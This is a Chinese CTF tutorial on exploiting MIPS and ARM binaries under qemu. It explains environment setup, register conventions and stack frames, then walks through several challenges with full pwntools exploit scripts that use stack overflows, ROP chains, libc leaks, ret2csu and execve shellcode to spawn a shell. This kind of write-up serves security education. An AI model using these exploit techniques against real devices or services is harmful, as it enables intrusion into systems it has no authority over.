# 异架构入门-先知社区

> **来源**: https://xz.aliyun.com/news/17905  
> **文章ID**: 17905

---

# mips/arm pwn

## 环境安装

#### qemu安装

qemu 是一个支持跨平台虚拟化的虚拟机，有 user mode 和 system mode 两种配置方式。其中qemu 在system mode配置下模拟出整个计算机，可以在qemu之上运行一个操作系统。qemu 的system mode与常见的VMware和Virtualbox等虚拟机比较相似，但是qemu 的优势是可以跨指令集。例如，VMware和Virtualbox之类的工具通常只能在x86计算机上虚拟出一个x86计算机，而qemu 支持在x86上虚拟出一个ARM计算机。qemu在user mode配置下，可以运行跟当前平台指令集不同的平台可执行程序。例如可以用qemu在x86上运行ARM的可执行程序，但是两个平台必须是同一种操作系统，比如Linux。

```
sudo apt install qemu
sudo apt install qemu-user
```

#### gdb-multiarch

是一个经过交叉编译后的、支持多架构版本的 gdb。

sudo apt install gdb-multiarch

#### 安装动态链接库

要安装对应架构的动态链接库，安装后会在/usr/目录下看到

有大佬已经给总结好了，好多稀奇古怪的架构

[【Pwn 笔记】跨平台架构的环境配置与调试 | binLep's Blog](https://binlep.github.io/old_blog_01/2020/03/20/%E3%80%90Pwn%20%E7%AC%94%E8%AE%B0%E3%80%91%E8%B7%A8%E5%B9%B3%E5%8F%B0%E6%9E%B6%E6%9E%84%E7%9A%84%E7%8E%AF%E5%A2%83%E9%85%8D%E7%BD%AE%E4%B8%8E%E8%B0%83%E8%AF%95/)

```
# 具备MIPS交叉编译gcc与MIPS程序动态链接库
sudo apt-get install gcc-mips-linux-gnu
sudo apt-get install gcc-mipsel-linux-gnu
sudo apt-get install gcc-mips64-linux-gnuabi64
sudo apt-get install gcc-mips64el-linux-gnuabi64
```

## mips

### 初探

当下mips考点更多趋向于ret2txt,ret2libc,ret2shellcode也有堆的题目，解题时可以结合X86架构下的漏洞挖掘和利用思路

下载相应架构的lib

```
$ apt search "libc6-" | grep "arm"
$ sudo apt-get install libc6-dbg-arm64-cross
```

#### ELF文件格式

这是linux下file生成的

ELF 32-bit LSB executable, MIPS, MIPS32 rel2 version 1 (SYSV), dynamically linked, interpreter /lib/ld.so.1, for GNU/Linux 3.2.0, BuildID[sha1]=8e2e178dc761c3e8245a9742491867114e6757ab, not stripped

含义

```
1. ELF 32-bit LSB executable
ELF：表示这是一个可执行和可链接格式（Executable and Linkable Format）的文件。ELF 是 Unix 和类 Unix 系统（如 Linux）中常用的文件格式，用于可执行文件、目标文件和共享库。
32-bit：表示该文件是为 32 位架构设计的。
LSB：表示该文件是小端字节序（Little Endian）。小端字节序是指在内存中，低字节存储在低地址处，高字节存储在高地址处。与之相对的是大端字节序（Big Endian）。
executable：表示这是一个可执行文件，可以直接运行。
则MSB表示的是大端序
2. MIPS, MIPS32 rel2 version 1 (SYSV)
MIPS：表示该文件是为 MIPS 架构的处理器设计的。MIPS 是一种精简指令集（RISC）架构，广泛应用于嵌入式系统和一些高性能计算设备。
MIPS32 rel2：表示该文件是基于 MIPS32 架构的第二版（revision 2）。
version 1 (SYSV)：表示该文件遵循 System V 的 ABI（应用程序二进制接口）规范，版本为 1。
3. dynamically linked
表示该文件是动态链接的。动态链接是指在程序运行时，由动态链接器（如 ld.so）加载所需的共享库（如 .so 文件）。与静态链接相比，动态链接可以减少可执行文件的大小，并且便于共享库的更新。
4. interpreter /lib/ld.so.1
表示该文件需要通过动态链接器 /lib/ld.so.1 来加载和运行。ld.so 是 Linux 系统中的动态链接器，负责解析和加载程序所需的共享库。
5. for GNU/Linux 3.2.0
表示该文件是为运行在 GNU/Linux 操作系统上，且内核版本为 3.2.0 的系统设计的。这意味着它可能依赖于该版本内核提供的特定功能或特性。
6. BuildID[sha1]=8e2e178dc761c3e8245a9742491867114e6757ab
BuildID：是一个用于标识构建版本的唯一标识符。它通常用于调试和版本管理。
sha1：表示该 BuildID 是通过 SHA-1 哈希算法生成的。SHA-1 是一种广泛使用的哈希算法，可以生成一个 160 位的哈希值，用于唯一标识文件或数据。
8e2e178dc761c3e8245a9742491867114e6757ab：是该文件的 BuildID 哈希值。
7. not stripped
表示该文件没有被剥离符号信息。符号信息（如函数名、变量名等）通常用于调试和反向工程。如果一个文件被剥离了符号信息（使用 strip 命令），则会减小文件大小，但调试会变得更加困难。
总结
这个文件是一个为 MIPS 架构设计的 32 位可执行文件，遵循 System V ABI，动态链接，需要通过 /lib/ld.so.1 加载运行，适用于 GNU/Linux 3.2.0 系统。它包含符号信息，便于调试，且具有唯一的 BuildID 标识符。
```

‍

#### 运行调试

##### 本地运行

动态连接

导入lib文件

一般来说题目会提供程序依赖的so库，所以在程序根目录创建一个lib文件夹并将依赖文件放进去

文件目录结构



然后输入一下命令测试能不能运行

```
qemu-mipsel -L ./ pwn

#-L /usr/mipsel-linux-gnu/  是指在该目录下寻找目标文件对应的库文件
```

静态连接

直接运行即可

‍

##### gdb调试

直接调试

```
qemu-mipsel -L /usr/mipsel-linux-gnu/ -g 6666 pwn #开启6666端口
开启另一个terminal启动gdb多架构调试
gdb-multiarch pwn -q
设置mips架构
set architecture mips
选择小端序
set endian little
连接目标端口
target remote localhost:6666
```

脚本调试

我们在做题的时候肯定是在脚本中下断点更好调试

```
#context.terminal = ['gnome-terminal','-x','sh','-c']
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.log_level = 'debug'
p = process(["qemu-mipsel", "-L", "./", "-g", "6666","./pwn2"]) #开启1234端口


def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",6666),exe=elf.path,
    gdbscript="b *0x4007C4
")
    pause()
```

QAQ

调试的时候会遇到调用某个函数的时候进入某个libc地址

原因是远程调试过程中GDB加载了宿主机的库，为了阻止GDB查找宿主机上的库，需要设置GDB共享库查找路径前缀与共享库查找路径

```
#gdb中设置
set solib-absolute-prefix  #设置GDB共享库查找路径前缀
set solib-search-path      #设置GDB共享库查找路径
```

‍

‍

#### 理论知识

MIPS（Microprocessor without Interlocked Pipeline Stages），是一种采取精简指令集（RISC）的指令集架构（ISA），最早的MIPS架构是32位，最新的版本已经变成64位。MIPS汇编语言是用于编写MIPS（Microprocessor without Interlocked Pipeline Stages）架构微处理器指令的低级语言，常见于路由器，MIPS架构是一种典型的精简指令集计算机（RISC）体系结构，最初由斯坦福大学的John Hennessy在1980年代初期设计，目的是为了实现高性能的处理器设计，通过使用简单的指令集来加速指令的执行速度。MIPS架构和汇编语言被广泛用于各种设备和应用中，包括嵌入式系统、路由器、微控制器以及视频游戏控制器等。

指令集

|  |  |  |
| --- | --- | --- |
| **REGISTER** | **NAME** | **USAGE** |
| $0 | $zero | 存储常量 0 (constant value 0) |
| $1 | $at | 保留给汇编器 (Reserved for assembler) |
| $2-$3 | $v0-$v1 | 存放函数调用返回值或表达式 (values for results and expression evaluation) |
| $4-$7 | $a0-$a3 | 作为函数调用的前四个参数 (arguments) |
| $8-$15 | $t0-$t7 | 供汇编程序使用的临时寄存器 临时变量 |
| $16-$23 | $s0-$s7 | 调用子函数时 用于保存原寄存器的值 (saved) |
| $24-$25 | $t8-$t9 | 供汇编程序使用的临时寄存器 补充t0−t7 |
| $26-$27 | k0−k1 | 中断/异常处理程序使用 保存系统参数 |
| $28 | $gp | 全局指针 (Global Pointer) |
| $29 | $sp | 堆栈指针 (Stack Pointer) |
| $30 | $fp | 帧指针 (Frame Pointer) |
| $31 | $ra | 返回地址 (return address) |

1. MIPS32架构函数调用方式

对栈的操作： MIPS32 架构堆栈与x86 架构的一样，都是从高地址向低地址增长的。但是在 MIPS 架构中没有 ebp/rbp 指针，在进入一个函数时，需要将当前栈顶指针上抬 N 字节，这个操作就是在给当前函数开辟它的栈帧，此后栈指针就不再移动，直至函数返回时重新加上 N 这个偏移，这个操作就是在恢复现场。由于不能随意移动栈指针，所以寄存器压栈和出栈时都必须指定偏移量

函数调用机制：

函数调用前，caller 函数会在自己的栈顶预留一部分空间来保存 callee 函数的参数，我们称之为调用参数空间；MIPS 的调用函数指令会将函数的返回地址直接存入 $RA 寄存器而不是堆中

函数调用时，前4个传入的参数通过 a0 a3 传递。有些函数的参数可能会超过4个，此时多余的参数会被放入调用参数空间

1. MIPS32架构函数调用的栈布局

MIPS32 架构下的函数有两种类型——叶子函数和非叶子函数。如果一个函数中不会再调用其他任何函数，那么这个函数就是一个叶子函数，其余的函数都是非叶子函数

函数调用过程（函数 A 调用函数 B）：

1. 函数调用指令执行时会复制当前 $PC 寄存器的值到 $RA 寄存器，即当前 $RA 的值就是当前函数执行结束的返回地址，然后跳转到函数 B 执行代码
2. 程序跳转到函数 B 后 如果函数 B 是非叶子函数，则函数 B 里首先会把函数 A 的返回地址入栈，函数返回时，函数 B 先从栈中取出被保存在栈上的返回地址，然后将返回地址存入寄存器 $RA，再使用 “jr $RA” 指令返回函数 A 如果函数 B 是叶子函数，则在函数返回时直接使用 “jr $RA” 指令返回函数 A（个人感觉这一块能看出精简指令集的特性，对冗余指令进行优化，叶子函数没必要再入栈上层函数的返回地址）

函数调用参数传递：

MIPS 体系的函数调用，通过 a0 a3 来传递前4个参数，其余参数通过栈传递，栈帧结构一般如下



1. 缓冲区溢出漏洞利用

在讨论完叶子函数和非叶子函数的栈帧结构差异后，就可以开始讨论它们各自的栈溢出漏洞利用的可行性了。非叶子函数会存储返回地址在栈中，所以与常规的栈溢出利用区别不大；然而若是在叶子函数中存在缓冲区溢出漏洞一般无法直接利用，除非存在可以溢出大量数据的情况，就可以通过一路覆盖到父函数中的返回地址去劫持程序流

#### 例题

##### ret2win\_mipsel

保护机制



如何确定溢出

需要控制$ra，程序最后都是有这一段gadget的，这里是ida反编译错误

精确计算的话：

0x38+var\_s4=0x38+4=60

s=0x18=24

溢出所需字节：padding=60-24=36

0x38=56>padding溢出





在gdb中的格式如下

```
ls $ra,0x3c($sp)
#当前sp+0x3c赋值给ra
```



返回地址一般也在fp上方



溢出点在这里，并且程序给了后门，没有gadget的话只能控制一次返回地址，前提是非子叶函数




直接溢出，控制返回地址为backdoor，getshell

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",1234),exe=elf.path,
    gdbscript="b *0x4009E8
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

context(arch='mips', os='linux')
context.log_level = 'debug'
p = process(["qemu-mipsel", "-L", "/usr/mipsel-linux-gnu", "-g", "1234","./ret2win_mipsel"]) #开启9000端口
#p = remote('39.106.69.240',20611)
elf = ELF('./ret2win_mipsel')
bug()
rl("You there, may I have your input please? And don't worry about null bytes, we're using read()!
")
rl("> ")
payload = b'a' * 36
payload += p32(0x400A00)
s(payload)


inter()
```

‍

##### spilt

保护



padding=0x38+4-0x18=35,后门只有/bin/ls，但是是有/bin/cat flag.txt的字符串的

我们需要控制ra 和a0去执行system(/bin/cat flag.txt)

这时候就需要利用一段gadget






ROPgadget --binary "./split\_mipsel" | grep -E ": lw .\*a0, .\*sp"

找到合适的gadget，可以控制a0还可以控制ra

网上还有一个找gadget的工具，适用于ida低版本，我使用的是9.1，不能使用该mipsrop

mipsrop

安装

<https://bbs.kanxue.com/thread-266102.htm> 直接看这个链接的评论区即可，然后直接把文件复制过去

常用的功能

mipsrop.find() mipsrop.stackfinders()



接下来就是构造paylaod

a0=sp+8,ra=sp+4

```
payload = b'a' * 36
payload += p32(0x00400a20)#ra
payload += b'bbbb'
payload += p32(0x00400B70)#system
payload += p32(0x00411010)#/bin/cat flag.txt
```

最后跳转到后门，getflag

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",1234),exe=elf.path,
    gdbscript="b *0x4009B0
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

context(arch='mips', os='linux')
context.log_level = 'debug'
p = process(["qemu-mipsel", "-L", "/usr/mipsel-linux-gnu", "-g", "1234","./split"]) #开启9000端口
#p = remote('39.106.69.240',20611)
elf = ELF('./split')
bug()
rl("Tell me your name first if you want to pwn.")

payload = b'a' * 36
payload += p32(0x00400a20)#ra
payload += b'bbbb'
payload += p32(0x00400B70)#system
payload += p32(0x00411010)#/bin/cat flag.txt

p.sendafter(">", payload)


inter()
```

‍

##### Mplogin

题目给了libc文件，这就需要我们将目录改为 -L ./

.ds\_store是macOS系统用来存储特定文件夹的自定义显示设置和元数据的文件，所以应该是这个文件对栈空间有些影响，所以我们直接把整个文件夹的内容复制过去，然后正常做题就可以


保护



题目







没有system函数，NX没开，考虑打shellcode。sub\_400840中read有溢出，可以泄露出stack地址，sub\_400978第一次read可以更改第二次size，造成栈溢出，栈溢出更改返回地址为shellcode

关于第一次read如何覆盖，这里ida中是不方便找的，可以结合调试快速发现



之后控制返回地址为我们的shellcode，getshell

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",6666),exe=elf.path,
    gdbscript="b *0x400A28
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

#context.terminal = ['gnome-terminal','-x','sh','-c']
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.log_level = 'debug'
p = process(["qemu-mipsel", "-L", "./", "-g", "6666","./Mplogin"]) #开启1234端口
#p = remote('39.106.69.240',20611)
elf = ELF('./Mplogin')
bug()
rl("Username : ")
pay=b'admin'
pay=pay.ljust(0x18,b'a')
s(pay)
rl('adminaaaaaaaaaaaaaaaaaaa')
stack=u32(p.recv(4))
li(hex(stack))
rl("Pre_Password : ")
s(b'assess\x00'+b'\x00'*7+p32(0x1)*2+p32(0x6111))

rl("Password : ")
pay=b'0123456789'
payload=pay.ljust(0x28,b'a')+p32(stack)+asm(shellcraft.sh())
s(payload)

inter()
```

##### retlibc

题目

vuln中有栈溢出





保护



主要利用这两段gadget，s2-ra=>puts.plt s1-a0=>read.got

执行完这一段返回地址就被设置为vuln了，这里调试发现是执行puts时候的将返回地址设置为了vuln，具体什么原因后边在分析吧





返回到vuln有了第二次栈溢出的机会，已经拿到了libc的基地址，打system的rop链即可getshell





```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",6666),exe=elf.path,
    gdbscript="b *0x400808
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

#context.terminal = ['gnome-terminal','-x','sh','-c']
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.log_level = 'debug'
p = process(["qemu-mipsel", "-L", "./", "-g", "6666","./pwn2"]) #开启1234端口
#p = remote('39.106.69.240',20611)
elf = ELF('./pwn2')
libc=ELF('./lib/libc.so.0')
gadget1=0x4006C8
gadget2=0x4007A8
puts=0x4009D0
bug()
rl("What's your name: ")
s(b'a'*8)
rl("Hello!, aaaaaaaa")
pay = b'a'*36+p32(gadget1)+b'a'*(0x1c)
pay+= p32(0)#s0
pay+= p32(elf.got['read'])#s1
pay+= p32(puts)#s2
pay+= p32(1111)#s3
pay+= p32(gadget2)#s4
s(pay)

read_addr=u32(p.recv(8)[0:4])
libc_base=read_addr-libc.symbols['read']
li(hex(libc_base))
system,bin_sh=get_sb()

pause()
pay = b'a'*36+p32(gadget1)+b'a'*(0x1c)
pay+= p32(0)#s0
pay+= p32(bin_sh)#s1
pay+= p32(system)#s2
pay+= p32(1111)#s3
pay+= p32(gadget2)#s4
s(pay)


inter()
```

##### [DASCTF X 0psu3十一月挑战赛｜越艰巨·越狂热]shaopi(BUU)

静态编译，将符号表恢复一下如下，一开始有个base64检测，将解码好的输入一下





之后就有一个栈溢出了，静态编译，但没有符号表，去找gadget，可以跳转到fp上去执行shellcode



用下边两个gadget

```
0x0043965C | addiu $a2,$sp,0x68+var_10 | jalr $fp#将0x68+var_10地址赋值给a2
0x0040ABB8 | move $t9,$a2 | jalr $a2#跳转到a2
```

shellcraft自动生成的shellcode过长，0x74,网上找一个短的getshell

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",6666),exe=elf.path,
    gdbscript="b *0x400C90
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

#context.terminal = ['gnome-terminal','-x','sh','-c']
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='mips'
context.os='linux'
context.log_level = 'debug'
p = process(["qemu-mipsel", "-g", "6666","./challenge"]) #开启1234端口
#p = remote('node5.buuoj.cn',27441)
elf = ELF('./challenge')
bug()
rl("your passphrase: ")
sl("三元一串十元三串")
gadget1=0x0043965C #addiu $a2,$sp,0x68+var_10 | jalr $fp
gadget2=0x0040ABB8 #move $t9,$a2 | jalr $a2
shellcode=asm(
'''
lui $t6,0x6e69
ori $t6,$t6,0x622f
sw $t6,28($sp)

lui $t7,0x6873
ori $t7,$t7,0x2f2f
sw $t7,32($sp)
sw $zero,36($sp) 

la $a0,28($sp)

addiu $a1,$zero,0
addiu $a2,$zero,0
addiu $v0,$zero,4011

syscall 0x40404
''')
shell=asm(shellcraft.mips.sh())
print(shell)
li(hex(len(shell)))
payload=b'a'*(68-4)+p32(gadget2)+p64(gadget1)
payload=payload.ljust(0xa0,b'a')+shellcode
s(payload)


inter()
```

‍

## arm

#### ELF文件格式

chall: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.3, for GNU/Linux 3.2.0, BuildID[sha1]=829f6a8ec1a5969fb01d69b6fdc4053923e8736a, stripped

#### 运行调试

```
sudo apt-get install gcc-arm-linux-gnueabi #arm
sudo apt-get install gcc-aarch64-linux-gnu #aarch64


如果程序是静态链接并且是32位 arm架构的话，输入qemu-arm ./程序名

如果程序是静态链接并且是aarch64架构的话，输入qemu-aarch ./程序名

如果程序是动态链接且是32位 arm架构的话，输入qemu-arm -L /usr/arm-linux-gnueabihf ./程序名

如果程序是动态链接且是aarch64架构的话，输入qemu-aarch64 -L /usr/aarch64-linux-gnu ./程序名
```

#### 理论知识

ARM 是 32 位的架构，AARCH64 是 64 位的架构

ARM 架构下的函数调用约定为，函数的前四个参数保存在寄存器 r0 - r3 中， 剩下的参数从右向左依次入栈， 被调用者实现栈平衡，函数的返回值保存在 r0 中

AARCH64 架构下的函数调用约定为，函数的前六个参数保存在寄存器 x0 - x5 中。与ARM架构不同的是，AARCH64 架构下，被调用者不需要实现栈平衡，由调用者负责栈平衡。函数的返回值保存在 x0 中，如果返回值是一个结构体或类似的较大的数据类型，则会使用 x0 和 x1 寄存器记录返回值

常见汇编

* MOV： 数据传输指令，用于将数据从一个寄存器或内存中复制到另一个寄存器或内存中。
* ADD/SUB： 加法和减法指令。
* CMP： 比较指令，比较两个操作数的大小关系。
* B： 分支指令，用于无条件跳转到指定地址。
* BL： 分支指令，用于跳转到指定地址并将返回地址保存在LR寄存器中，可用于函数调用。
* LDR/STR： 数据传输指令，用于从内存中读取数据或将数据写入内存。

* LDR 用于将某些内容从内存加载到寄存器中，例如 LDR R2, [R0] 从R0寄存器中存储的内存地址的值读入R2寄存器。
* STR 用于将某些内容从寄存器存储到内存地址中，例如 STR R2, [R1] 从R2寄存器中将值存储到R1寄存器中的内存地址中。

* PUSH/POP： 栈操作指令，用于将寄存器中的数据入栈或从栈中弹出数据。

根据做的题目来看，返回地址的位置不固定，这里需要结合调试去看，调试很重要！！！

QAQ

有时候调用shellcraft.aarch64.sh()的时候会报错，需要我们安装binutils依赖

```
dpkg-query: 没有找到与 *bin/armeabi*linux*-as* 相匹配的路径
[ERROR] Could not find 'as' installed for ContextType(arch = 'arm', bits = 32, endian = 'little', log_level = 10)
    Try installing binutils for this architecture:
    https://docs.pwntools.com/en/stable/install/binutils.html
apt search binutils | grep [arch]#aarch64为例
```



sudo apt install binutils-aarch64-linux-gnu#安装即可

#### 例题

##### typo(ret2text)

arm架构，静态编译，去除符号表

```
typo: ELF 32-bit LSB executable, ARM, EABI5 version 1 (SYSV), statically linked, for GNU/Linux 2.6.32, BuildID[sha1]=211877f58b5a0e8774b8a3a72c83890f8cd38e63, stripped


    Arch:       arm-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x8000)
```

可以通过调试找到主函数



根据shift+F12追踪字符串，交叉引用找到main



代码也是很难看，这里我们可以尝试恢复一下符号表，但还是没办法看出来函数的主逻辑，之后直接调试来看



这里可以用cyclic -l来确定溢出值



因为我们没办法定为read的地址，但可以直接C，并通过cyclic -l来确定溢出值



可以大概猜出这里就是system



arm32位

这个arm32位的话，传前四个参数是用的r0~r3寄存器，如果参数再多的话，就利用栈传参（从右向左依次入栈）。函数的返回值会存在r0寄存器中。然后pc寄存器就相当于x86中的eip寄存器（始终装的都是我们下一条指令执行的地址）除此之外，arm 的 b/bl 等指令实现跳转。



直接用r0,pc，控制r0为binsh,pc为system最后getshell

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",6666),exe=elf.path,
    gdbscript="b *0x8F5C
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

#context.terminal = ['gnome-terminal','-x','sh','-c']
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='arm'
context.os='linux'
context.log_level = 'debug'
p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "-g", "6666","./typo"]) #开启1234端口
#p = remote('39.106.69.240',20611)
elf = ELF('./typo')
#libc=ELF('./libc.so.6')
system=0x10BA8
r0_r4_pc=0x00020904
bin_sh=0x6C384
bug()
rl("Input ~ if you want to quit")
s(b'
')
rl("------Begin------")
pause()

payload=cyclic(0x70)+p32(r0_r4_pc)+p32(bin_sh)+p32(0)+p32(system)
sl(payload)


inter()
```

##### chall(ret2libc)

题目



前边一个base64换码表，把密文加密发送一下就能绕过



这里有栈溢出，但没有后门，很容易就想到打ret2libc，去找一下有没有我们需要的gadegt



没有我们想要的r0,r1，这里就需要其他的gadegt，在init中有一段gagdet可以控制程序流程，同时可以控制r1,r0并完成一次跳转，程序也不会退出，返回的main

```
MOV     R1, R8
MOV     R0, R7
BLX     R3
```

这里泄露出libc之后就是再次利用这个gadget getsshell

```
from pwn import*
from struct import pack
import ctypes
#from LibcSearcher import *
from ae64 import AE64
def bug():
    gdb.attach(sysroot="libc",
    target=("localhost",6666),exe=elf.path,
    gdbscript="b *0x10C04
")
    pause()
def s(a):
    p.send(a)
def sa(a,b):
    p.sendafter(a,b)
def sl(a):
    p.sendline(a)
def sla(a,b):
    p.sendlineafter(a,b)
def r(a):
    p.recv(a)
def rl(a):
    return p.recvuntil(a)
def inter():
    p.interactive()
def get_addr64():
    return u64(p.recvuntil("\x7f")[-6:].ljust(8,b'\x00'))
def get_addr32():
    return u32(p.recvuntil("\xf7")[-4:])
def get_sb():
    return libc_base+libc.sym['system'],libc_base+libc.search(b"/bin/sh\x00").__next__()
def get_hook():
    return libc_base+libc.sym['__malloc_hook'],libc_base+libc.sym['__free_hook']
li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

#context.terminal = ['gnome-terminal','-x','sh','-c']
context.terminal = ['gnome-terminal', '--', 'bash', '-c']
context.arch='arm'
context.os='linux'
context.log_level = 'debug'
p = process(["qemu-arm", "-L", "/usr/arm-linux-gnueabi", "-g", "6666","./chall"]) #开启1234端口
#p = remote('39.106.69.240',20611)
elf = ELF('./chall')
libc=ELF('./libc.so.6')
pop_r7=0x00010cb0
pop_r3=0x00010464
mov_r0=0x10CA0 
main=0x10C30
bug()
rl("msg> ")
sl("s1mpl3Dec0d4r")
rl("comment> ")
payload  =b'a'*(0x2c)+p32(pop_r3)+p32(elf.plt['puts'])#cyclic(0x50)
payload +=p32(pop_r7)+p32(elf.got['puts'])*7
payload +=p32(mov_r0)
payload +=p32(main)*8
s(payload)
libc_base = u32(p.recv(4)) - libc.sym['puts']
li(hex(libc_base))
system,bin_sh=get_sb()

rl("msg> ")
sl("s1mpl3Dec0d4r")
rl("comment> ")
payload  =b'a'*(0x2c)+p32(pop_r3)+p32(system)#cyclic(0x50)
payload +=p32(pop_r7)+p32(bin_sh)*7
payload +=p32(mov_r0)
s(payload)


s(payload)

inter()
```

##### Shanghai2018 – baby\_arm（ret2csu）

题目



可以注意到第一次read在bss段，后续有一个栈溢出，按照x86的思路会读入shellcode并栈溢出返回执行，题目还给出了protect函数，但我们需要控制mprotect的三个参数，分别是x0(buf),x1(length),x2(prot)，这里就用到了ret2scu的思路

有个问题，栈溢出并不能直接控制返回地址，而是[sp]+0x10赋值给x29,x30,之后就能控制返回地址0x30，这里我们需要在构造payload的时候注意

ldp x29, x30, [sp], #0x10



csu\_gadget

```
gagdet2
LDR             X3, [X21,X19,LSL#3]#
MOV             X2, X22
MOV             X1, X23
MOV             W0, W24
ADD             X19, X19, #1
BLR             X3
CMP             X19, X20
B.NE            loc_4008AC
gadget1
LDP             X19, X20, [SP,#var_s10]
LDP             X21, X22, [SP,#var_s20]
LDP             X23, X24, [SP,#var_s30]
LDP             X29, X30, [SP+var_s0],#0x40
RET
```

gadget1

LOP就是将sp+0x10,sp+0x18的数值赋值给x19,x20,后边类似，这样我们就可以控制x19,x21,x22,x23这些寄存器的值

gadget2

第一条指令的作用是从内存地址 x21 + (x19 << 3) 中加载一个64位的数据，并将其存入寄存器 x3 中。

x3需要是一个指针，指向我们想要返回地址地址，之后x22，x23分别对应x2,x1

